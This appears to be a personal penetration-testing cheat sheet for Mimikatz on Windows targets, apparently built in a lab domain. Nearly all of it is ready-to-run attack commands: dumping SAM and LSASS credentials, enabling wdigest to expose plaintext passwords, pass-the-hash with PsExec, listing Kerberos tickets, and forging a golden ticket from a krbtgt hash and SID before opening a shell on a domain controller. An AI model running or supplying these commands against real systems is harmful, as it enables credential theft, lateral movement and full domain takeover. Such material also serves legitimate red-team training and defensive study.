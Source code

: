 >NEEDS LOCAL ADMIN USER / SYTEM ACCESS 

#### Old version!

```bash - kali
git clone https://github.com/caday00/mimikatz2.1.1
```

#### New versions!

```
https://github.com/gentilkiwi/mimikatz/releases
```

Run CMD / PS as admin before running mimikatz.

#### Password dumps

```command prompt - target
privilege::debug
```

```command prompt - target
token::elevate
```

```command prompt - target
lsadump::sam
```

```command prompt - target
sekurlsa::logonpasswords
```


---

```command prompt - target
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

```command prompt - target
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

IF YOU GET THIS ERROR:  Download an older version and try again.

![[Pasted image 20220605172609.png]]

![[Pasted image 20220118191412.png]]

Enable wdigest (shows plaintext passwords when a user logs in again)

```command prompt - target
sekurlsa::wdigest
```

#### Pass The Hash

Be sure to have a copy of PsExec on target!

```command prompt - target
sekurlsa::pth /user:$USER /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:".psexec \$USER -h cmd.exe"  
```

#### TGT and service tickets abuse
```command prompt - target
sekurlsa::tickets
```

![[Pasted image 20220118191633.png]]

![[Pasted image 20220118191704.png]]

[[4._Service Account Attacks]]


#### Golden Ticket
```command prompt - target
privilege::debug
```

```command prompt - target
token::elevate
```

```command prompt - target
lsadump::lsa /inject /name:krbtgt
```

![[Pasted image 20220101224308.png]]

We need the SID and NTLM values.

```command prompt - target
S-1-5-21-3930179768-1295167970-3814010639
```

```command prompt - target
9aef958e753aad3426a3b6630e15a671
```

```command prompt - target
kerberos::golden /User:fakeuser /domain:marvel.local /sid:S-1-5-21-3930179768-1295167970-3814010639 /krbtgt:9aef958e753aad3426a3b6630e15a671 /id:500
```

```command prompt - target
 kerberos::ptt ticket.kirbi
```

```command prompt - target
misc::cmd
```

```command prompt - target
psexec.exe \\dc01 cmd.exe
```

```command prompt - target
whoami 
```

```command prompt - target
whoami /groups
```